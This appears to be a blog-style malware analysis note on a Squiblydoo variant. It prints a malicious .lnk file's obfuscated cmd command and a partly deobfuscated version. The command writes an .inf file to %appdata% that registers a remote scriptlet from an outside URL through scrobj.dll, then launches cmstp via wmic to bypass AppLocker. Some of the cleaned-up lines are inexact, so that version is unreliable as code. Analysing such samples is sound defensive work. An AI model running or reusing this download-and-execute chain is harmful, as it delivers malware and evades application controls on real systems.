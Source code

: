 ```yaml
---
title: Multi-stage Squiblydoo variant
# author: Grace JyL
date: 2020-11-11 11:11:11 -0400
description: 
excerpt_separator: 
categories: [CyberAttack, MalwareCVE]
tags: [CyberAttack, MalwareCVE]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


[toc]

---


# Multi-stage Squiblydoo variant

---

## step 1

the `.lnk` file has a cmd command but it looks encoded/obfuscated.
- the cmd contains two distinct sections. 
- The first part `creates a “RANDOM.inf” file` 
  - (RANDOM is a random number generated via %random% command)
- the second part starts it using `WMI` and `cmstp`
  - cmstp is often used to bypass Applocker

original

```c
“C:\Windows\System32\cmd.exe” /v /c set “EhWLDvbm34801=Items”
&& call set “EhWLDvbm4162=%EhWLDvbm34801:~4,1%”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e”)
&& !EhWLDvbm4162!et “EhWLDvbm8561=na”
&& !EhWLDvbm4162!et “EhWLDvbm85714=a”
&& !EhWLDvbm4162!et “EhWLDvbm13835=t”
&& !EhWLDvbm4162!et “EhWLDvbm9306=d”
&& call !EhWLDvbm4162!et “EhWLDvbm1449=%ran!EhWLDvbm9306!om%.inf”
&& call !EhWLDvbm4162!et “EhWLDvbm9442=%app!EhWLDvbm9306!ata%\Micro!EhWLDvbm4162!oft\!EhWLDvbm1449!”
&& !EhWLDvbm4162!et “EhWLDvbm59779=.”
&& !EhWLDvbm4162!et “EhWLDvbm19532=“^”
&& (for %r in (“[ver!EhWLDvbm4162!ion]” “!EhWLDvbm4162!ig!EhWLDvbm8561!ture=$Window!EhWLDvbm4162! NT$” “[!EhWLDvbm9306!e!EhWLDvbm4162!tinationdirs]” “2A436=01” “[!EhWLDvbm9306!efaultin!EhWLDvbm4162!tall_singleu!EhWLDvbm4162!er]” “UnRegis!EhWLDvbm13835!erOCXs=47E0” “!EhWLDvbm9306!elfiles=2A436" “[47E0]” “%11%\%EhWLDvbm55506%crO%EhWLDvbm59234%j,NI,%EhWLDvbm69079%%EhWLDvbm23745%%EhWLDvbm23745%p%EhWLDvbm23092%%EhWLDvbm20494%%EhWLDvbm20494%web2!EhWLDvbm59779!e-fax!EhWLDvbm59779!%EhWLDvbm2079%/gmaps!EhWLDvbm59779!txt” “[2A436]” “!EhWLDvbm1449!” “[!EhWLDvbm4162!!EhWLDvbm13835!rings]” “EhWLDvbm23745=t” “EhWLDvbm69079=h” “EhWLDvbm23092=:” “EhWLDvbm55506=s” “EhWLDvbm20494=/” “EhWLDvbm59234=b” “EhWLDvbm2079=org” “!EhWLDvbm4162!ervicen!EhWLDvbm85714!me=' ‘” “!EhWLDvbm4162!hortsvcn!EhWLDvbm85714!me=’ ’“) do @e!EhWLDvbm4796!ho %~r)>“!EhWLDvbm9442!
“&& !EhWLDvbm4162!t!EhWLDvbm85714!rt “” /MIN wmi!EhWLDvbm4796! proce!EhWLDvbm4162!s call !EhWLDvbm4796!rea!EhWLDvbm13835!e “cm!EhWLDvbm4162!!EhWLDvbm13835!p /ns /!EhWLDvbm4162! /su !EhWLDvbm9442!”
```

---

## chop

- `&&` runs the second command on the line when the first command comes back successfully
- `%variablename%` a inbuilt or user set environmental variable
- `!variablename!` a user set environmental variable expanded at execution time, turned with SetLocal EnableDelayedExpansion command

```c
%Items:~4,1%=s

%~e=c


smtp:
Syntax 1 - This is the typical syntax used in a custom installation application. To use this syntax, you must run cmstp from the directory that contains the <serviceprofilefilename>.exe file.

<serviceprofilefilename>.exe /q:a /c:cmstp.exe <serviceprofilefilename>.inf [/nf] [/s] [/u]

Syntax 2
cmstp.exe [/nf] [/s] [/u] [drive:][path]serviceprofilefilename.inf
```



```c
“C:\Windows\System32\cmd.exe” /v /c set “Items=Items” 
&& call set “EhWLDvbm4162=%Items:~4,1%=s” 
&& (for %e in (c) do @set “EhWLDvbm4796=%~e=c”)
&& set “EhWLDvbm8561=na” 
&& set “EhWLDvbm85714=a” 
&& set “EhWLDvbm13835=t” 
&& set “EhWLDvbm9306=d” 
&& call set “EhWLDvbm1449=%random%.inf” 
&& call set “EhWLDvbm9442=%appdata%\Microsoft\%random%.inf” 
&& set “EhWLDvbm59779=.” 
&& set “EhWLDvbm19532=“^” 
&& (for %r in (
    “[version]” 
    “signature=$Windows NT$” 
    “[destinationdirs]” 
    “2A436=01” 
    “[defaultinstall_singleuser]” 
    “UnRegisterOCXs=47E0” 
    “delfiles=2A436" 
    “[“UnRegisterOCXs]” 
    “%11%\scrObj,NI,http://web2.e-fax.org/gmaps.txt” 
    “[“delfiles]” 
    “%random%.inf” 
    “[strings]” 
    “EhWLDvbm23745=t” 
    “EhWLDvbm69079=h” 
    “EhWLDvbm23092=:” 
    “EhWLDvbm55506=s” 
    “EhWLDvbm20494=/” 
    “EhWLDvbm59234=b” 
    “EhWLDvbm2079=org” 
    “servicename=' ‘” 
    “shortsvcname=’ ’“
    ) do @echo %~r)>“%appdata%\Microsoft\%random%.inf“
&& start “” /MIN wmic process call create “cmstp /ns /s /su %appdata%\Microsoft\%random%.inf”

```




---

ref
- [Analysis of a Multi-stage Squiblydoo variant](https://blog.n0p.me/2020/10/2020-10-13-malware-applocker-bypass/#stage-2-updatetxt)





.
